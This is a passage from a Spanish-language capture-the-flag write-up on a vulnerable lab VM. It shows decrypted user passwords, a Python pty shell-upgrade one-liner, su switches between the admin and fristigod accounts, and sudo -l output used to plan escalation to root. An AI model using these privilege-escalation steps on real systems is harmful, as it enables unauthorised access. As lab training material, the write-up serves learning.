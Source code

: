

Los archivos ``whoisyoutgodnow.txt`` y ``cryptedpass.txt`` están ambos encriptados con el script mencionado. Modificando un poco el codigo de script o usando portales online para desencriptarlos da como resultado que son el password de los usuarios **fristigod** y **admin** respectivamente.

Volviendo a nuestro shell reverso sin privilegios del principio hay que lograr una terminal buena y gracias a que la VM victima tiene **Python** instalado se hace corriendo el suguiente comando:

>**``python -c 'import pty; pty.spawn("/bin/sh")'``**

Una vez que se obtiene la terminal se puede pasar a los usuarios con mayores privilegios a través del comando ``su``:

```console
python -c 'import pty; pty.spawn("/bin/sh")'
sh-4.1$ su admin
su admin
Password: thisisalsopw123

[admin@localhost tmp]$ whoami
whoami
admin
[admin@localhost tmp]$ su fristigod
su fristigod
Password: LetThereBeFristi!

bash-4.1$ whoami
whoami
fristigod
```
---

Voy a saltear al usuario admin e ir directamente a **Fristigod**...

---

Como último escalamiento de privilegios solo resta llegar a **root**, ejecutando el comando ``sudo -l`` se reveló información importante:

> **``sudo -l``**

```console
Matching Defaults entries for fristigod on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```

A lo que hay que prestar atención acá es que dice que el usuario **fristi** (no fristigod) pueden correr el comando ``/var/fristigod/.secret_admin_stuff/doCom`` con ``sudo``. Entonces el parámetro ``-u [usuario]`` de ``sudo`` nos permite hacer lo que necesitamos.
